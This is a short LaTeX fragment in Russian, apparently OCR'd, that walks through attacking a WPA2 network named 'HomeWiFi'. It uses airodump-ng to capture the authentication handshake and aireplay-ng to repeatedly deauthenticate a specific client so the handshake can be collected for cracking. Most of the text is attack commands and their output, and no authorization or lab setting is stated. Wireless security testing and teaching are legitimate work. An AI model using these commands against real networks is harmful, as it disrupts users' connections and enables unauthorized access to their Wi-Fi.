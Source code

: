 \documentclass[10pt,a4paper]{report}
\begin{document}
		Целевая сеть:
		\begin{lstlisting}
 6C:19:8F:CC:01:90  -52      103        0    0   1  54e  WPA2 CCMP   PSK  HomeWiFi 
		\end{lstlisting}
		Запустим сбор трафика для получения аутентификационных сообщений:
		\begin{lstlisting}
root@kali:~# airodump-ng wlan0mon --write airdump --bssid 6C:19:8F:CC:01:90 -c 1
 CH  1 ][ Elapsed: 1 min ][ 2016-05-28 17:11                                         
                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                       
 6C:19:8F:CC:01:90  -39 100      810        8    0   1  54e  WPA2 CCMP   PSK  HomeWiFi 
                                                                                       
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe             
                                                                                       
 6C:19:8F:CC:01:90  98:F1:70:93:04:63  -28    0 -24e     0      103                     
 6C:19:8F:CC:01:90  D8:50:E6:91:D8:1C  -60    0e- 6      0       24    
		\end{lstlisting}
		Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
		D8:50:E6:91:D8:1C), до тех пор, пока не удастся собрать необходимых для 
		взлома аутентификационных сообщений.
\begin{lstlisting}
root@kali:~# sudo aireplay-ng --ignore-negative-one --deauth 150 -a 6C:19:8F:CC:01:90 -h D8:50:E6:91:D8:1C wlan0mon
17:14:07  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:07  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:07  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:17  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:27  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:28  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:38  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:38  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:48  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]
17:14:49  Sending DeAuth to broadcast -- BSSID: [6C:19:8F:CC:01:90]

\end{lstlisting}
\end{document}
